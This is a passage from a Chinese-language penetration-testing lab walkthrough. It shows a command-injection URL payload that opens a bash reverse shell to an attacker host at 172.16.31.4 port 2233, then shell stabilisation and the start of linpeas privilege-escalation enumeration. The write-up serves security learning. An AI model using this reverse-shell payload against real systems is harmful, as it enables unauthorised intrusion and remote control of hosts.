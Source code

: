 注意reverse shell语句中的&要替换为URL编码%26

```bash
http://172.16.31.7/about?0=/bin/bash -c 'bash -i >%26 /dev/tcp/172.16.31.4/2233 0>%261'
```

成功getshell

![image-20240917135010815](./imgs/image-20240917135010815.png)



获取一个正常点的shell环境

![image-20240917135302853](./imgs/image-20240917135302853.png)







## linpeas信息收集

https://github.com/peass-ng/PEASS-ng

linpeas是一个流行的脚本,用于在渗透测试中进行特权升级和系统枚举。



Kali中开启服务

![image-20240917135617630](./imgs/image-20240917135617630.png)

